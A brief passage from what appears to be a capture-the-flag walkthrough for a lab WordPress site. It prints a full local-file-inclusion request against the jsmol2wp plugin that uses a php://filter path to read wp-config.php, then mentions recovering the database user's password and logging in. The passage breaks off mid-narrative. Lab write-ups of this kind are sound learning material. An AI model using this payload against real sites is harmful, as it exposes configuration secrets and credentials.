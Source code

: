 Reading wp-config.php:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

![wp-config](images/wpconfig2.png)
`wpuser` password.


After logging into WordPress, we found notes left by the webmaster:

